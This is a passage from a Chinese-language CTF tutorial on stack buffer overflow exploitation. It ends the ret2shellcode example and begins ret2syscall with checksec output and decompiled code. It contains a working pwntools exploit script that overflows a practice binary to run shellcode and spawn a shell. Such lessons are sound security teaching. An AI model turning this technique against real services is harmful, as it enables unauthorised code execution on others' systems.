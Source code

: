 那么这次我们就控制程序执行 shellcode，也就是读入 shellcode，然后控制程序执行 bss 段处的 shellcode。其中，相应的偏移计算类似于 ret2text 中的例子。

具体的 payload 如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

### 题目

- sniperoj-pwn100-shellcode-x86-64

## ret2syscall

### 原理

ret2syscall，即控制程序执行系统调用，获取 shell。

### 例子

这里我们以 bamboofox 中的 ret2syscall 为例  

点击下载: [ret2syscall](https://github.com/ctf-wiki/ctf-wiki/raw/master/pwn/stackoverflow/example/ret2syscall/rop)

首先检测程序开启的保护

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为 32 位，开启了 NX 保护。接下来利用 IDA 来查看源码

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```
